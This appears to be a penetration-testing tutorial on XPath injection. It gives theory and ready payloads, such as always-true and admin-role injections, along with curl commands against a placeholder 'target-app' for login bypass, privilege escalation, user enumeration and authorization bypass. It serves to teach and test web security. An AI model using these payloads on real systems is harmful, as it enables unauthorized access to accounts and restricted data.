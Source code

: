 ```yaml
---
title: XPath Injection for Authentication Bypass
description: Explore how XPath injection can bypass authentication and authorization
  in web apps.
keywords:
- XPath injection
- authentication bypass
- authorization bypass
- privilege escalation
- web security
---
```


# Authentication and Authorization Bypass

## Context

In the world of web security, exploiting XPath injection vulnerabilities can be a strategic maneuver to bypass authentication and authorization mechanisms. This article aims to demonstrate how an attacker can exploit such vulnerabilities in web applications, effectively bypassing these critical security controls. You should already be familiar with XPath query structure and syntax, as well as web application authentication and authorization flows and general XPath injection techniques.

## Theory

### Authentication Logic Vulnerabilities in XPath Contexts

Authentication bypass via XPath occurs when an application uses unsanitized user input in XPath queries, making it vulnerable to crafted payloads that manipulate the query to always return true. This allows attackers to gain unauthorized access without providing valid credentials. A typical attack sequence involves submitting input that alters the query logic to match any user node, thereby granting access.

#### Attack Sequence
1. The application expects user credentials in the form of XPath queries.
2. The attacker submits a crafted input that manipulates the query logic.
3. The manipulated query evaluates to true, allowing unauthorized access.

### Authorization and Privilege Escalation via XPath Injection

Authorization bypass exploits rely on altering the XPath logic used to verify roles or permissions, enabling attackers to access restricted resources or escalate their privileges. Applications that leverage XPath for these checks can be subverted by injecting conditions that evaluate to true, impersonating privileged users or escalating roles via payloads designed to alter the query's logic.

#### Attack Sequence
1. The application checks user roles using XPath queries.
2. The attacker injects a payload targeting the role attribute.
3. The manipulated query evaluates to include unauthorized roles, escalating privileges.

### User Enumeration and Session Bypass via XPath

XPath injection can reveal valid usernames or session tokens by observing the application's responses to crafted queries. Through iterative payload injections, attackers can manipulate predicates to enumerate users or bypass session checks, leveraging differences in responses to distinguish valid from invalid users.

#### Attack Sequence
1. The attacker injects payloads designed to test for valid usernames.
2. The application's error messages or responses indicate valid usernames or user IDs.
3. The attacker collects this information for further exploitation.

## Practice

### Bypassing Login Authentication with Always-True XPath Injection

To bypass login authentication using an always-true XPath injection:

- **Payload:** 
  ```http
  ' or '1'='1
  ```
  This payload injects an always-true condition into the username or password field, causing the application to grant access.
  
- **Command:**
  ```bash
  curl -X POST -d "username=' or '1'='1&password=irrelevant" http://target-app/login
  ```
  This command sends the payload to the login endpoint. The expected outcome is gaining access without valid credentials.

### Privilege Escalation by Injecting Admin Role in XPath Query

For escalating privileges by injecting an admin role:

- **Payload:** 
  ```http
  ' or role='admin' or '1'='2
  ```
  Targets the role attribute to escalate privileges.

- **Command:**
  ```bash
  curl -X POST -d "username=attacker&password=' or role='admin' or '1'='2" http://target-app/login
  ```
  This command attempts to authenticate as an admin user, resulting in elevated privileges.

### User Enumeration via XPath Error Responses

To perform user enumeration:

- **Payload:** 
  ```http
  admin' or '1'='2
  ```
  Injects a payload to test for valid usernames.

- **Command:**
  ```bash
  curl -X POST -d "username=admin' or '1'='2&password=foo" http://target-app/login
  ```
  This approach relies on observing differences in error messages or responses to enumerate valid usernames or user IDs.

### Authorization Matrix Bypass via XPath Predicate Manipulation

To bypass authorization checks:

- **Payload:** 
  ```http
  ' or '1'='1
  ```
  Forces the predicate to always be true, bypassing authorization.

- **Command:**
  ```bash
  curl -b "session=attacker" http://target-app/restricted?resource=' or '1'='1
  ```
  This command accesses restricted resources by manipulating the resource parameter. The expected outcome is accessing resources without proper authorization.

## Tools

- **curl**
- **Burp Suite**
- **OWASP ZAP**

Each of these tools can be instrumental in crafting and sending malicious payloads, as well as observing application responses to assess vulnerabilities.